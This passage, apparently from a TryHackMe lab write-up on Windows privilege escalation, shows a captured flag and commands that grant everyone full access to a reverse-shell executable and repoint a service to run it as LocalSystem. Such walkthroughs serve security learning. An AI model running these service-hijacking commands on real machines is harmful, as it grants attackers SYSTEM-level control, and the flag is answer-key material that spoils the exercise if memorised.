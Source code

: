 	`THM{INSECURE_SVC_CONFIG}`

	* Create and download payload
	
		![task5-payload3](./images/task5-payload3.png)

		![task5-download3](./images/task5-download3.png)

	* Set permission and change the service's associated executable and account
	
		```
		icacls C:\Users\thm-unpriv\rev-svc3.exe /grant Everyone:F
		sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem
		```

		![task5-persmission](./images/task5-persmission.png)
